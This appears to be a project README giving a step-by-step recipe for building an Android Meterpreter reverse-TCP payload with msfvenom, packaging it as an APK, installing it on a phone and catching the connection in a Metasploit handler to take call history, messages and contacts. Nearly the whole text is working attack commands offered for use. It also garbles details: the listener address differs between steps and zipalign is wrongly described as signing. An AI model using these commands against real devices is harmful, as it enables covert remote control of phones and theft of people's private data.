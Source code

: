 Instructions
1. Open Kali Linux and create a folder called "android" in the home directory.
2. Then go to that android folder and open a terminal there itself.
3. Now use the following command to create a payload <br>
&emsp;Command: sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.205.228 LPORT=4444 R > chaithu.apk
4. Here LHOST is your Kali machine's ip address
5. Now install a tool called zipalign to sign the payload by using the following command <br>
&emsp;Command: sudo apt-get install zipalign
6. Now sign the payload by using the following command and install the application on the mobile<br>
&emsp;Command: zipalign -v 4 chaithu.apk signed_jar.apk
7. Now come to Kali Linux and open metasploit by using msfconsole and run the following commands to listen the connection from mobile <br>
&emsp;•	use exploit/multi/handler <br>
&emsp;•	set payload android/meterpreter/reverse_tcp <br>
&emsp;•	set lhost 192.168.68.130 (ip of linux) <br>
&emsp;•	set lport 4444 <br>
8. Then run the metasploit 
9. Now we can exploit the mobile and get whatever we want like call histrory, messages, contacts and many more.
10. The provided files serve as a reference for the project
